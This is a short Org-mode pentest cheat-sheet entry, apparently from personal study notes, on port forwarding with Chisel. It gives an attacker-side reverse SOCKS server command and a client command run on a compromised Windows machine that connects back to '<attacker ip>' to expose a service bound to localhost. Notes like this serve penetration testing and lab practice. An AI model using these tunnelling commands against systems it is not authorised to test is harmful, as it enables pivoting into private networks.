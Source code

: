 :PROPERTIES:
:ID:       cebc9891-81bc-43d5-8a6c-a70f0b1c398a
:END:
#+title: Port Forwarding
#+filetags: :pentest:network:
#+hugo_base_dir:../


* Port Forwarding
** Chisel
Compromised windows machine -- service hosted only at 127.0.0.1 -- attacker machine is server and victim machine is client:
#+begin_src shell -n
# attacker
chisel server --socks5 --reverse -p 1234
# windows victim
chiselx86_64.exe client <attacker ip>:1234 R:9090:127.0.0.1:9090
#+end_src
